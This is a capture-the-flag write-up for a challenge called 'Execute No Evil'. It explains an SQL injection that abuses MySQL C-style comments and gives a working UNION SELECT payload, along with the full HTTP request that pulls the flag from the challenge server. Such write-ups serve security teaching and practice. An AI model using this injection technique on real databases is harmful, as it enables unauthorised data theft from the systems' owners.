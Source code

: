 # Execute No Evil
## Challenge:
>(1) New Message: "Hey dude. So we have this database system at work and I just found an SQL injection point. I quickly fixed it by commenting out all the user input in the query. Don't worry, I made the query so that it responds with boss's profile, since he is kind of the only person actively using this database system, and he always looks up his own name, lol. Anyway, guess we'll go with this til' the sysadmin comes and fixes the issue."
>
>Huh, so hear no evil, see no evil, ... execute no evil?

## Vulnerability
>MySQL C-Style comments - https://dev.mysql.com/doc/refman/5.7/en/comments.html

## Solution
SQL:
```sql
! 'Geronimo' UNION ALL SELECT 1,name,(Select whatsthis fRoM flag) FROM users WHERE name=
```

HTTP Request
```HTTP
GET /?name=%21+%27Geronimo%27+UNION+ALL+SELECT+1%2Cname%2C%28Select+whatsthis+fRoM+flag%29+FROM+users+WHERE+name%3D HTTP/1.1

Host: challs.xmas.htsp.ro:11002

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1
```
